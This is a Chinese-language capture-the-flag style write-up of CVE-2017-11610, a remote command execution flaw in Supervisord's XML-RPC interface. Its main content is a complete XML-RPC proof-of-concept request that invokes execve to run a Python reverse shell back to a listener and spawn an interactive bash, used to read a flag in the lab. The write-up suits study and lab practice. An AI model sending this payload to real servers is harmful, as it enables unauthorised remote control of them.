





# CVE-2017-11610（ Supervisord 远程命令执行漏洞）by [Frivolous-scholar](https://github.com/Frivolous-scholar)

## 概述

Supervisord 是使用 Python 开发的进程管理程序，Supervisord 能够将命令行进程或服务变为后台运行的deamon（守护进程）。Supervisord 拥有监控进程状态的功能，在进程异常退出时能够自动重启进程。

Supervisord 在配置了 Web 接口后，服务器会启动一个 XMLRPC 服务器，端口号为 9001，利用本漏洞，在获取接口访问权限后，远程攻击者可利用发送一段精心构造的请求，导致可在服务器执行任意代码。

首先打开靶场，并进行抓包。

利用 POC 去执行，发现无回显，用 DNSlog 去验证。

然后在跳板机上用 nc 监听。

利用 POC 反弹shell, poc 如下。

`<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>`

反弹过来 shell,查看 tmp 临时文件来拿 Flag。

